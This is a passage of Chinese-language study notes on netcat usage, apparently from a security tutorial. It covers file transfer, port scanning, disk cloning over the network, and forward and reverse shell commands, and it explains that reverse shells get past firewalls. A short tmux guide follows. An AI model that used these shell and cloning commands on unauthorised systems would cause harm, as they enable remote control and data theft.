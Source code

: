 文件接收方：`nc -nv 发送方ip 4444 > filename`

### nc发送文件夹

发送方：`tar -cvf - dirpath | nc -lp 4444 -q 1` 需要注意`-cvf`后面存在`-`

接收方：`nc -nv 发送方ip 4444 | tar -xvf -`

### nc扫描端口

`nc -nvz 目标ip 1-65535` 扫描tcp端口

### nc远程克隆硬盘

接收方： `nc -lp 4444 | dd of=/dev/sda`

被克隆方：`dd if=/dev/sda | nc -nv 接收方ip 4444 -q 1`

### nc远程控制

**正向shell**

控制端：`nc -nv 被控端ip 4444`

被控端：`nc -lp 4444 -c bash`

**反向shell**

控制端：`nc -lp 4444`

被控端：`nc -nv 控制端ip 4444 -c bash `

一般防火墙拦截从外到内的数据，对从内向外的数据不做限制，所以使用反向shell。

不同版本的nc的参数不尽相同，有的版本获取shell需使用`-e`

## tmux 终端复用器

**安装工具**

在ubuntu系统中使用`sudo apt-get install tmux`安装tmux工具

**使用工具**

​    1，输入命令tmux使用工具

​    2，上下分屏：ctrl + b 再按 "

​    3，左右分屏：ctrl + b 再按 %

​    4，切换屏幕：ctrl + b 再按o

​    5，关闭一个终端：ctrl + b 再按x

​    6，上下分屏与左右分屏切换： ctrl + b 再按空格键

